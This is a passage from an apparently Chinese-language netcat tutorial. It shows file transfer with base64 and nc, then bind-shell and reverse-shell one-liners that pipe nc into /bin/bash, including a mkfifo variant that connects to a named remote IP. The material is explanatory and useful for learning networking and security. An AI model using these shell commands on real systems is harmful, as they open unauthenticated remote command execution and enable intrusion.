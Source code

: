      客户端上传图片

     ```sh
     base64 WechatIMG88.jpeg | nc 202.118.69.40 9090
     ```

     > *注：因为需要传输图片，所以先 base64 编码，然后下载完再解码避免终端错乱。*

   - 从服务器下载图片

     服务器 A 监听 9090 端口，并将要下载的图片输出到 nc

     ```sh
     base64 WechatIMG88.jpeg | nc -l 9090
     ```

     客户端下载

     ```sh
     nc -t 202.118.69.40 9090|base64 -D > w.jpeg
     ```

     

8. ***将服务器 bash 暴露给远程客户端***

   与 6 类似，只不过服务端将接收到到内容管道给 /bin/bash
   然后在客户端输入要敲的命令

   ```sh
   nc -l 9090 | /bin/bash
   ```

   

9. ***内网穿透，反向获取防火墙后的机器的 bash***

   与 7 类似，只不过服务器 B 将内容管道给 /bin/bash
   在客户端 A 打开监听

   ```sh
   nc -l 9090
   ```

   在服务器 C 上执行以下代码反向接受命令

   ```sh
   nc -t 202.119.70.41 9090 | /bin/bash
   ```

   然后在客户端 A 输入要执行的命令即可。

   需要注意的是，使用上述命令远程执行命令时在客户端无法看到命令的返回结果。
   通过创建命名管道的方式，可将 bash 执行的结果回传给 netcat,
   具体命令如下（在服务器 C 执行代码）：

   ```sh
   mkfifo ncpipe
   nc -t 202.119.70.41 9090 0<ncpipe| /bin/bash 1>ncpipe
   ```



### 4. Ncat
